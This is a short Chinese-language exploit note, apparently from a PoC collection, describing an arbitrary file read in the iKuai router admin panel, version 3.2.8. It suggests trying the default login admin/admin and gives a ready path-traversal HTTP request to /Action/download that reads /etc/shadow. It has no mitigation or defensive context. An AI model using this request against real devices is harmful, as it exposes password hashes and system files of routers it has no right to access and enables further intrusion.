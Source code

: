 # 爱快(iKuai) 后台任意文件读取(0day)

影响版本，不一定是绝对版本，也可能其它版本都存在：3.2.8 x64 Build201910101758

默认密码可以试试：admin/admin

**PoC：**

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```

ref：

https://forum.ywhack.com/thread-115307-1-8.html